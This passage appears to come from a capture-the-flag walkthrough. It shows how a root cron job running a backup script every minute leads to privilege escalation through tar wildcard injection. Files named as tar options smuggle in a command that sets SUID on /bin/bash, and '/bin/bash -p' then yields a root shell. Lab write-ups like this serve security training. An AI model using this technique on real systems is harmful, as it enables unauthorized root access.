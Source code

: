 ```shell
-rw-r--r-- 1 root       root       4679680 Nov 14 15:06 backup.tgz
```

When finding a bash script, there is a good change that is being run by root using a cron job. We can check cron jobs with the following command:

```shell
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

There is a line telling us its being run every minute:

```shell
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

We can do a tar wildcard expansion injection to set a SUID on /bin/bash:

```shell
# Tar wildcard injection
cd /var/www/html
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Check if the SUID binary of /bin/bash changed:

```shell
ls -al /bin/bash

-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

Notice the s at -rwsr-sr-x. It worked!

Now we can get shell as root running the following command:

```shell
/bin/bash -p
```
